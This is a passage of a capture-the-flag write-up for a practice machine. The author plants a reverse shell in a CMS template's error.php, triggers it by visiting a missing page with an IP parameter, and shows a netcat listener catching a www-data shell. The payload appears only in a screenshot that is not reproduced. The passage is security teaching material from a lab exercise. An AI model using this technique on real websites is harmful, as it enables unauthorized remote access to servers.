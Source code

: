 ### Modify Template

A little trial and error shows that Protostar is the template in user.
Clicking on it takes me to the editor with a list of files:

![](/img/image-20210615162333576.png)

I'll add a reverse shell to `error.php`:

![](/img/image-20210615162529723.png)

Now I'll click save.

### Trigger Shell

I need a page that doesn't exist, so I'll just add `0xdf` to the end of
the `index.php` url and add the IP to get
`http://10.10.10.61:8080/index.php/0xdf?ip=10.10.14.8`. On visiting in
Firefox, I get a shell:



    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.61] 33704
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@a7018bfdc454:/var/www.md$ 

